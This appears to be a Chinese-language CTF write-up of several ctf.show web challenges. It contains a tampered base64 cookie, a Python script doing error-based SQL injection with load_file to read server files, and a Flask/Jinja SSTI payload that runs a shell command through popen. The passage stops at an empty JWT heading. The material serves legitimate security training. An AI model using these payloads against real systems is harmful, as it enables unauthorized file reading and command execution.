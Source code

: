 

## 707-[watevrCTF-2019] Cookie Store

点击购买flag，抓包

看cookie

![](https://s2.loli.net/2022/01/28/eUWoqcC9sSATh7m.png)

购买flag需要100，咱们只有50，修改后再发包：

```
eyJtb25leSI6IDEwMCwgImhpc3RvcnkiOiBbXX0=
```

在cookie中得到flag

![](https://s2.loli.net/2022/01/28/4vqVl6ufHyBNdjm.png) 



## 709-[RootersCTF2019] babyWeb

过滤了：`UNION` `SLEEP` `'` `"` `OR` `-` `BENCHMARK`

这里的话群主把题目改了一下，需要利用报错注入和load_file()读文件

读index.php会看到看到包含了一个`ctfshowflagyouneverknow.php`，读一下

```python
import requests

url = "http://fbfec5b3-e13c-4155-b9e0-3932a3abd251.challenge.ctf.show"

for i in range(100):
    # p = f"extractvalue(0x0a,concat(0x0a,(substr((select load_file(0x2F7661722F7777772F68746D6C2F696E6465782E706870)),{1+i*30},{31+i*30}))))"
    p = f"extractvalue(0x0a,concat(0x0a,(substr((select load_file(0x2F7661722F7777772F68746D6C2F63746673686F77666C6167796F756E657665726B6E6F772E706870)),{1+i*30},{31+i*30}))))"
    r = requests.get(url,params={'search':p})
    print(r.text[22:],end='')
```



## 710-flask-ssti

ssti模板注入，找参数找了一会。。

```
?name={{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat flag.txt').read()}}
```



## 711-jwt
